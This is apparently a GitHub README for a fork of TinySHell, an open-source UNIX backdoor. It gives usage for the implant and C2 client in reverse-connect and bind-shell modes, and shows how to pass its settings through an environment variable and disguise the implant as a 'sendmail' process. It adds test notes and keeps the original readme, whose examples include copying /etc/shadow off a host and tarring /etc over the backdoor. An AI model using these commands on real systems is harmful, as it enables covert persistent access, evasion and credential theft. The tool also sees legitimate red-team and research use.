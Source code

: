 This is an updated fork of creaktives fork of TinySHell, an open source UNIX backdoor.

creaktive added commandline argument parsing which allows you to dynamically set the connectback host, port, and shared secret value at runtime. 

Like so:
```
# implant side
Usage: ./tshd [ -c [ connect_back_host ] ] [ -s secret ] [ -p port ]

# c2 side
Usage: ./tsh [ -s secret ] [ -p port ] [command]

   <hostname|cb>
   <hostname|cb> get <source-file> <dest-dir>
   <hostname|cb> put <source-file> <dest-dir>
```

I've since added support for passing those arguments through an environmental variable by shamelessly copy-pasting Skyper from The Hackers Choice's implementation of env2argv from the THC fork of dsniff. 

So now you can do the following on the implant side:
```
ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" ./tshd
```

Which is kinda cool, but it gets neater - you can hide the process somewhat with old school trickery like the following - making it look like a sendmail process as an example:
```
mv tshd sendmail
PATH=.:$PATH ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" sendmail 
```

Further changes will follow as testing proceeds and I refactor small bits, try out some bullshit, etc. 

For the planned experiments/etc, see the Issues tab where I've created an issue for each "idea" to experiment with. 

I can't guarentee any timeline on how fast anything will get done, or in what order, it really depends on free time, effort, etc. 

## current notes:
11-04-2024: tested in bind shell mode, working on Ubuntu and FreeBSD targets. Reverse connect mode seems buggy, unclear if network gremlins or other. Build on OpenBSD fails. Plan going forward is to fix the reverse connect mode, then fix the OpenBSD build-time issues, then fix the OpenBSD run-time issues.  
12-04-2024: Figured out that the issue with reverse-connection mode was an extra : in the getopt string after a lot of buggering around. Reverse and bind modes now working perfectly on FreeBSD and Ubuntu. Further stress testing needed though.  
12-04-2024: currently, the tsh client sends `exec bash --login` as the default command to pop a shell - `tsh_runshell( server, "exec bash --login" ) );`, on some systems without bash this causes an error. So we should probably default to "sh" instead?  
12-04-2024: issuing a release at this point just as a snapshot of it "working" on Ubuntu/FreeBSD.  
13-04-2024: OpenBSD support has been provisionally fixed at this time, though you need to replace "gcc" with "egcc" in the Makefile currently.  

## compatability/test notes
I'll update these as I figure out what is/is not working, etc.


| OS | Distribution | Version | Architecture | Bind Shell Client | Bind Shell Server | Reverse Shell Client | Reverse Shell Server | File Upload | File Download | Env2Args |
| :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: |    :---:      |         :---: |
| Linux   | Ubuntu |   23.10  | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| FreeBSD | FreeBSD | 14.0-RELEASE | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |


## Original readme below.
```

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

```
